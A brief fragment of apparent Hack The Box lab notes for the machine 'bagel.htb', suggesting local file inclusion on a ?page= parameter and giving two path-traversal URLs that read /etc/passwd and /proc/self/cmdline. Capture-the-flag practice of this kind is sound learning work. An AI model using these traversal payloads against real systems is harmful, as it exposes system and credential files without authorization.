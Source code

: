 If URL parameter is something like ?page=, try different LFI payloads

```
http://bagel.htb:8000/?page=../../../../../../../etc/passwd
```

Other interesting payloads are:

```
http://bagel.htb:8000/?page=../../../../../../../proc/self/cmdline
```